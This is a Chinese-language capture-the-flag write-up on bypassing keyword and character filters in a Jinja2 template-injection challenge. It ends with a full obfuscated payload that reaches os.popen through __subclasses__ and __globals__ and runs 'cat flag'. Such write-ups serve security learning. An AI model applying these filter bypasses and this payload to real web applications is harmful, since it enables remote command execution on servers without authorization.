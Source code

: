 ![image-20210926143712383](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926143712383.png)
这一关颜色和之前不同,感觉难度会有所增加.

绕过`' "`可以用 request 构造 get 参数代替,但是 request 被 ban 了,request 可以使用字符串拼接构造,但是`' "`又被 ban 了,`.`被过滤可以用`[]`绕过,但是`[]`也被 ban 了.`[]`可以用`__getitem__`绕过,`.`可以用`attr`绕过,这两个没有被过滤,说明还是有希望.现在关键就是怎么绕过`' 和 "`.

再`Level 9 bypass keyword` 的扩展中,使用过滤器`dict()|join`构造关键子的过程中没有出现`' "`,可以使用这种办法绕过.

`{%set a=dict(__cla=a,ss__=b)|join%}{{()|attr(a)}}`

![image-20210926170311552](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926170311552.png)

不过在后面构造命令`cat flag`时空格无法识别.通过这篇[博客](https://buaq.net/go-74232.html),发现了新思路.

#### 绕过空格

通过以下构造可以得到字符串,举个例,可以发现输出的字符串中存在空格、部分数字、`<`以及部分字母.利用过滤器`list`将其变为列表类型再配合使用索引,就能得到我们想要的.

```python
{% set org = ({ }|select()|string()) %}{{org}}
{% set org = (self|string()) %}{{org}}
{% set org = self|string|urlencode %}{{org}}
{% set org = (app.__doc__|string) %}{{org}}
```

![image-20210927143907669](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927143907669.png)

![image-20210927144342078](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927144342078.png)

![image-20210927144420692](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927144420692.png)

同理,使用 urlencode 中还出现了百分号.在`%`被过滤时可以尝试使用这种方法进行绕过.

![image-20210927144625707](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927144625707.png)

构造 payload,拿到 flag

> payload 原型:().\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()[132].\_\_init\_\_.\_\_globals\_\_\[‘popen’](‘cat flag’).read()

```python
{%set a=dict(__cla=a,ss__=b)|join %}  # __class__
{%set b=dict(__bas=a,e__=b)|join %}	  # __basess__
{%set c=dict(__subcla=a,sses__=b)|join %}    # __subclasses__
{%set d=dict(__ge=a,titem__=a)|join%}    # __getitem__
{%set e=dict(__in=a,it__=b)|join %}		 # __init__
{%set f=dict(__glo=a,bals__=b)|join %}	# __globals__
{%set g=dict(pop=a,en=b)|join %}	# popen
{%set h=self|string|attr(d)(18)%}	# 空格
{%set i=(dict(cat=abc)|join,h,dict(flag=b)|join)|join%}  # cat flag
{%set j=dict(read=a)|join%} # read
{{()|attr(a)|attr(b)|attr(c)()|attr(d)(132)|attr(e)|attr(f)|attr(d)(g)(i)|attr(j)()}}
```

![image-20210927125630695](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927125630695.png)

